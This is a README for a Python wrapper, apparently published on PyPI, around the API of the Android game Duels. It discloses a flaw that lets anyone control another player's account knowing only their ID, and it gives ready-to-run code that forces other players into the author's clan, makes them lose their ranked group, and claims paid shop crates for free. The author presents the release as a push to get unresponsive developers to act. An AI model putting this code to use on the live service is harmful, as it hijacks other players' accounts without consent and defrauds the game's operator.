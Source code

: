 A simple wrapper for [Duels](https://play.google.com/store/apps/details?id=com.deemedyainc.duels&hl=en_US) API game on Android 

This game have many issue 

Installing

```pip install duels_api```

Example code from game.py
```
from duels_api import User
import cfg

me = User(cfg.my_id)
print(me)

members = me.get_self_clan_members()
for player in members:
    print(player)
```

The main vulnerability of this game is that you can control the character of any player knowing only his id

With this code u can add ANY player to you clan and defeat all players from him ranked group
```
me = User(cfg.my_id)
print(me)

members = me.search_clans()
for player in members:
    player.leave_clan()
    player.join_clan(me.clan_id)
    
    player.defeat_group()
```

Also you can take any crate from shop absolutely free

```
me = User(cfg.my_id)
print(me)
me.get_special_crate()
```


I already wrote to the developers of this game but they didn’t respond, so I decided to share this code. Maybe after that they will pay attention to these problems.
